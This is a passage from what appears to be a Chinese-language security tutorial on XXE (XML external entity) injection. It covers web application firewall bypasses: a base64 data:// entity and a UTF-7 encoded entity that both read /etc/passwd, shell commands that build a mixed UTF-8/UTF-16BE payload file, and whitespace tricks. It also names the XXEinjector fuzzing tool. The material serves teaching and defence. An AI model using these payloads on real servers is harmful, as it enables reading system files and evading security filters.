 ```
<!DOCTYPE test \[ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; \]><foo/>
```

仅当 XML 服务器接受 data:// 协议时，此方法才有效。

##### utf-7

直接上样例：

```
<!xml version="1.0" encoding="UTF-7"?-->
+ADw-+ACE-DOCTYPE+ACA-foo+ACA-+AFs-+ADw-+ACE-ENTITY+ACA-example+ACA-SYSTEM+ACA-+ACI-/etc/passwd+ACI-+AD4-+ACA-+AF0-+AD4-+AAo-+ADw-stockCheck+AD4-+ADw-productId+AD4-+ACY-example+ADs-+ADw-/productId+AD4-+ADw-storeId+AD4-1+ADw-/storeId+AD4-+ADw-/stockCheck+AD4-
```

##### 使用两种编码

思路是在同一个文档里同时使用两种编码，从而迷惑 WAF。直接用生成的命令来说明：

```
echo -n '<?xml version="1.0" encoding="UTF-16BE"?>'> payload.xml
echo '<a>1337</a>'| iconv -f UTF-8-t UTF-16BE>> payload.xml
```

头部声明使用 UTF-8 编码，而之后使用 UTF-16 编码。当解析器读到 XML 声明的编码时，会切换到该编码（继续解析），即使该编码与声明部分所使用的编码不同。

与此同时，WAF 一般不支持这种多种编码的 XML 文档。

##### 在实体内编码

是新的 XML 技术，对内部实体中的任何 DTD/XML 进行编码（编码格式是字符串 16 进制 + UTF-8 形式），达到 WAF bypass 的效果！  
当没有 XXE，但 XML 主体中存在漏洞 (例如 SQL 注入) 时起作用。

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcq3D6frZ7ibtepGt4OHxwISlyUkFFdnWu66pKjyOIFXjR70picOkmaW63zcLCE0ezuakqDbKowP3IEw/640?wx_fmt=png)

#### 文档中的额外空格

由于 XXE 通常在 XML 文档的开头，所以比较省事儿的 WAF 可以避免处理整个文档，而只解析它的开头。但是，XML 格式允许在格式化标记属性时使用任意数量的空格，因此攻击者可以在`<?xml?>`或`<!DOCTYPE>`中插入额外的空格，从而绕过此类 WAF。

### 六. XXE 工具

#### XXEinjector

XXEinjector 是一个使用 Ruby 编写的自动化 xxe 漏洞检测工具，可以通过给定一个 http 请求的包，然后设置好好参数就会自动化的进行 fuzz，他会通过内置的规则进行自动化的测试，并且还支持二次注入（通过另一个请求触发漏洞）。

### 七. 参考资料

未知攻焉知防——XXE 漏洞攻防

https://phonexicum.github.io/infosec/xxe.html#xxe-targets

https://github.com/enjoiz/XXEinjector
